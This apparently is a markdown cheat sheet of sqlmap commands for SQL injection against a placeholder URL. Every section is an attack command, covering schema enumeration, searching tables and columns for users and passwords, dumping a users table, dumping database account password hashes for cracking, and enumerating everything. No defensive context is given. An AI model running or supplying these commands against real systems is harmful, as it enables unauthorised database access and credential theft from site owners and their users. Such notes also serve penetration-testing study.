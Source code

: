 ## DB Schema Enumeration
```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema
```

## Searching for Users
```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

## Searching for Passwords
```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

## Password Enumeration and Cracking
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```
- Database = master
- Table = users

## DB Users Password Enumeration and Cracking
```shell-session
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```
- Dumps username passwords for database itself

## Enumerating Everything
```shell-session
sqlmap -u "http://www.example.com/?id=1" --all --batch
```
